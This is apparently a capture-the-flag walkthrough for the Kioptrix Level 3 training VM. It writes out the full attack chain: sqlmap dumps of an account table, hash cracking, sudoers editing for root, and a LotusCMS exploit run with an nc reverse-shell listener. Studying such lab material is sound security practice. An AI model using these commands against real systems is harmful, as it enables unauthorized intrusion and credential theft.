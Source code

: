 # Kioptrix Level 3
Insert `ethernet0.connectionType = "nat"` to .vmx, and change all `bridged` in the .vmx file of the VM before use VMware to open it.
![](https://i.imgur.com/NWG2WuI.png)
Host is `192.168.232.145`
![](https://i.imgur.com/58HjyQ9.png)
Victim is `192.168.232.148`
`nmap -sS -sV -p- -oN NampKioptrixLv3.txt 192.168.232.148`
![](https://i.imgur.com/aK0CjHC.png)
We first start recon web service, `httponly flag not set` may cookie lost, maybe there's XSS exploit here.
![](https://i.imgur.com/q3cGznc.png)

![](https://i.imgur.com/7gUqYcY.png)

![](https://i.imgur.com/eGD0pWW.png)
Here can simply use [LotusCMS-Exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit) / [Lotus CMS Fraise 3.0 - Local File Inclusion / Remote Code Execution](https://www.exploit-db.com/exploits/15964) to get the shell in apache privilege, but not PoE there. 
We first `dirb` the directories of this website.
![](https://i.imgur.com/yUCc9Dd.png)
We will see there's database and gallery on this website.
![](https://i.imgur.com/3DekYkl.png)
I find that some herf cannot correct find the domain `http://kioptrix3.com/`, so I edit `/etc/hosts` to map VM IP to `kioptrix3.com`
`192.168.232.148   kioptrix3.com `
Then we can get website work properly.
![](https://i.imgur.com/7Dc0ujg.png)
Enter `Ligoat press room` you will find a sort dropdown.
![](https://i.imgur.com/s5oB7Tn.png)
Then you might find that URL change.
![](https://i.imgur.com/G6lWPnL.png)
Now we can use LotusRCE shell to find the Account/Password in the DataBase or just use sqlmap to get them remotely.
`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL`
![](https://i.imgur.com/u3F19bs.png)

`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL --dbs`
![](https://i.imgur.com/6bOKIQC.png)

`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery --tables`
![](https://i.imgur.com/uDJrhcn.png)

`sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery -T dev_accounts --dump`
![](https://i.imgur.com/ksXNKjI.png)

Crack the hash. I use onlne `md5hashing.net`
![](https://i.imgur.com/WdCxHnL.png)
![](https://i.imgur.com/KtHzEzp.png)

Then try to SSH these account with these AC/PW.
![](https://i.imgur.com/JVCIbRZ.png)
`dreg` is empty and restricted.
![](https://i.imgur.com/s6Vu7r0.png)
There are something under `loneferret` folder. The policy said we can only use `ht` in `root`.
![](https://i.imgur.com/ExuZjet.png)
`sudo -l` tell us that we can not use `su` but `ht`
![](https://i.imgur.com/OoHpTbL.png)
However, `ht` is a file editor, we can use it to edit the `/etc/sudoers` to get `root` bash shell.
![](https://i.imgur.com/wkSC6At.png)
Fail with default environment variable TERM value `xterm-256color`, kioptrix3 is a red hat Linux, execute `export TERM=xterm` before the `sudo ht` command.
References:
* https://stackoverflow.com/questions/6804208/nano-error-error-opening-terminal-xterm-256color
* http://www.cloudfarm.it/fix-error-opening-terminal-xterm-256color-unknown-terminal-type/

![](https://i.imgur.com/sct7beX.png)
`sudo ht -t /etc/sudoers`
Or follow the [Document](http://hte.sourceforge.net/readme.html), use `F3` to open the `/etc/sudoers`, add `/bin/bash`
![](https://i.imgur.com/pmW7NVC.png)
`F2` save it, `F10` quit it.
![](https://i.imgur.com/WKvjL9N.png)
Then you might become `root`, enter to `/root` and find the `Congrats.txt`.
![](https://i.imgur.com/TbTWu4X.png)
Remember to reset the `/etc/hosts` if you need it.

## Use RCE to get the AC/PW in database
```bash
nc -lvp 8888
```
```bash
wget https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh
chmod +x lotusRCE.sh
./lotusRCE 192.168.232.148
```
Setting reverse shell target and listener port/type
![](https://i.imgur.com/WmwIQJE.png)
`python -c "import pty; pty.spawn('/bin/bash')"`
![](https://i.imgur.com/lVEVQeg.png)
We already known that gallery connect to a sql db, let find some AC/PW the website used to login.
`cd gallery`
![](https://i.imgur.com/vrWKwqH.png)
`gprofile.php` & `gconfig.php` are suspicious, take a look, if not, maybe we should trace code to find the website connect section.
![](https://i.imgur.com/rRHmiqT.png)
Nope.
![](https://i.imgur.com/VLcvMtC.png)
Ok, Here we got. Let's enter to the DB.
`mysql -h localhost -u root -p`
![](https://i.imgur.com/L0l9SUa.png)
`show databases;`
![](https://i.imgur.com/38Fe2nM.png)
```
use gallery;
show tables;
```
![](https://i.imgur.com/fx3Iess.png)
`select * from dev_accounts;`
![](https://i.imgur.com/pixMBFO.png)
